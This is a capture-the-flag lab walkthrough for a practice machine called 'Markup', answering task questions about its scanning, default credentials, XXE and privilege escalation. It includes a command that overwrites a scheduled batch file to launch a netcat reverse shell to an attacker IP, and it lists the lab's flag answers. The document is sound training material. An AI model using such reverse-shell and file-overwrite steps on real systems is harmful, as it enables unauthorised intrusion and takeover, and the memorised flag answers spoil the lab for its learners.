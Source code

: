 # Markup

## Initial Scan

```nmap
sudo nmap -T4 -v 10.129.202.209 -oA Markup-Basic
sudo nmap -T4 -p 22,80,443 -sV -sC -v 10.129.202.209 -oA Markup-sv
```

<figure><img src="../../../.gitbook/assets/image (966).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (967).png" alt=""><figcaption></figcaption></figure>

## Task 1

What version of Apache is running on the target's port 80?

Answer: 2.4.41

## Task 2

What username:password combination logs in successfully?

<figure><img src="../../../.gitbook/assets/image (968).png" alt=""><figcaption></figcaption></figure>

Just tried basic default logins

<figure><img src="../../../.gitbook/assets/image (969).png" alt=""><figcaption></figcaption></figure>

Answer: `admin:password`

## Task 3

What is the word at the top of the page that accepts user input?

<figure><img src="../../../.gitbook/assets/image (970).png" alt=""><figcaption></figcaption></figure>

Answer: Order

## Task 4

What XML version is used on the target?

<figure><img src="../../../.gitbook/assets/image (971).png" alt=""><figcaption></figcaption></figure>

Answer: 1.0

## Task 5

What does the XXE / XEE attack acronym stand for?

<figure><img src="../../../.gitbook/assets/image (972).png" alt=""><figcaption></figcaption></figure>

Answer: XML external entity

## Task 6

What username can we find on the webpage's HTML code?

<figure><img src="../../../.gitbook/assets/image (973).png" alt=""><figcaption></figcaption></figure>

Answer: Daniel

## Task 7

What is the file located in the Log-Management folder on the target?

<figure><img src="../../../.gitbook/assets/image (974).png" alt=""><figcaption></figcaption></figure>

Put the rsa into a file on our machine

<figure><img src="../../../.gitbook/assets/image (975).png" alt=""><figcaption></figcaption></figure>

Login as daniel

<figure><img src="../../../.gitbook/assets/image (976).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (977).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (978).png" alt=""><figcaption></figcaption></figure>

Answer: job.bat

## Task 8

What executable is mentioned in the file mentioned before?

<figure><img src="../../../.gitbook/assets/image (979).png" alt=""><figcaption></figcaption></figure>

Answer: wevtutil.exe

## Task 9

Submit user flag

<figure><img src="../../../.gitbook/assets/image (980).png" alt=""><figcaption></figcaption></figure>

Answer: 032d2fc8952a8c24e39c8f0ee9918ef7

## Task 10

Submit root flag

Run winpeas

<figure><img src="../../../.gitbook/assets/image (981).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (982).png" alt=""><figcaption></figcaption></figure>

Under the section "Searching executable files in non-default folders with write (equivalent) permissions (can be slow)" We see

<figure><img src="../../../.gitbook/assets/image (983).png" alt=""><figcaption></figcaption></figure>

Which from the previous question we have looked at. Run Let's run netcat to connect back to us as admin.

<figure><img src="../../../.gitbook/assets/image (984).png" alt=""><figcaption></figcaption></figure>

Get nc.exe onto the target

<figure><img src="../../../.gitbook/assets/image (985).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (986).png" alt=""><figcaption></figcaption></figure>

Run it to get admin on the system

```
echo C:\Users\Daniel\nc64.exe -e cmd.exe 10.10.14.38 1234 > C:\Log-Management\job.bat
```

<figure><img src="../../../.gitbook/assets/image (987).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (988).png" alt=""><figcaption></figcaption></figure>

I had troubles getting the shell to pop, which apparently is common, the root flag is under: `C:\Users\Administrator\Desktop\root.txt`

Answer: f574a3e7650cebd8c39784299cb570f8
